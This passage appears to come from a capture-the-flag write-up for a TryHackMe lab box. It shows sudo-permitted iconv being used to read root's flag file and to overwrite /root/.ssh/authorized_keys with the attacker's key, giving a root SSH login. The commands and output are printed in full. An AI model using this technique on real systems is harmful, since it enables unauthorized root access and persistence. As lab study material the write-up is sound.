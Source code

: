 We can run `iconv` as root, and according to [GTFObins](https://gtfobins.github.io/gtfobins/iconv/), this can be used to read and write files as root.

This means we could go ahead and read `/root/root.txt`, but what we really want is a root shell :

```
scamsite@TechSupport:/usr/bin$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
851b8233a8c09400ec30651bd1529bf1ed02790b  -
```

To achieve this we can generate a keypair on our machine and exploit our ability to run iconv as root to add our public key to root’s authorized keys file. This will allow us to SSH to the box as root.

## Ssh-Keygen

We can use [SSH-KeyGen](../../3%20-%20Tags/Hacking%20Tools/SSH-KeyGen.md) to generate the key,then write it to our victim via iconv, and access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) from our machine as root users :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ ssh-keygen             
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/mdn0x/.ssh/id_ed25519): 
/home/mdn0x/.ssh/id_ed25519 already exists.
Overwrite (y/n)? y
Enter passphrase for "/home/mdn0x/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mdn0x/.ssh/id_ed25519
Your public key has been saved in /home/mdn0x/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:6n1u9ZUAmxsgf/uMiJkrxQSFgIGsy50tC4ZqAGfQkHA mdn0x@mdn0xonKali
The key's randomart image is:
+--[ED25519 256]--+
|*=E.. o.         |
|++.  o . . .     |
|..    . o . +    |
|o o    . . = .   |
|++. o o S . + . .|
|++ + . +   o.  ..|
|+ . o o + ..+. . |
|.. . o = .o. o.  |
|.     o.o+.      |
+----[SHA256]-----+
                                                                                                                                       
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ cat /home/mdn0x/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
```

Now we copy our **public** key it on our target in the auth keys file :

```
scamsite@TechSupport:/dev/shm$ echo "ssh-rsa AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
" | sudo iconv -f 8859_1 -t 8859_1 -o "/root/.ssh/authorized_keys"
```

## Root SSH

Now we access with the **private** key :

```
ssh -i /home/mdn0x/.ssh/id_ed25519 root@10.10.1.80
```

Pwned !!